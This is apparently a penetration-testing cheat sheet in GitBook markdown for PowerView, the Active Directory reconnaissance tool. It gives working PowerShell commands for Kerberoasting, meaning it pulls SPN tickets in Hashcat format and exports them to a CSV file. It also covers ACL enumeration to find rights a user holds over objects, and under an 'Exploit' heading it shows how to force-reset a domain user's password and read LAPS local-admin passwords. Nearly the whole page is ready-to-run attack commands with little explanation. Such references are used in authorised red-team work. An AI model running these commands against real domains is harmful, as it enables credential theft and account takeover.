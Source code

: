 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

## Enumeration

### Check for Kerberoastable accounts

```powershell
Get-DomainUser * -SPN |Select samaccountname
```

Kerberoast

{% code overflow="wrap" %}
```powershell
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```
{% endcode %}

### Targeted ACL enumeration.

```powershell
# find user's SID
$sid = Convert-NameToSid <USER>
# search for all domain objects that the user has rights over
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? ($_.SecurityIdentifier -eq $sid)
```

The `ObjectAceType` fields tells us what ACE the user has over the object (Figure 1).

<figure><img src="../../.gitbook/assets/pv_objectacetype.png" alt=""><figcaption><p>Figure 1: The ObjectAceType lets us know what ACE the user has over the object.</p></figcaption></figure>

In case the script cannot be used, we can use native cmdlets. To convert the GUID into a human-readable format we can either perform a reverse search as shown below, or just google the GUID.

{% code overflow="wrap" %}
```powershell
# make a list of all domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
# retrieve ACL information about the target user
foreach($line in [System.IO.File]::ReadLines("C:\Windows\Temp\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
# convert GUID into a human-readable format
$guid= "00299570-246d-11d0-a768-00aa006e0529"
# reverse search to map the name to GUID
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
{% endcode %}

## Exploit

### Change Password

{% code overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force ) -Verbose
```
{% endcode %}

### LAPS password

{% code overflow="wrap" %}
```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="PowerSploit" %}
{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1" %}
{% endtab %}
{% endtabs %}
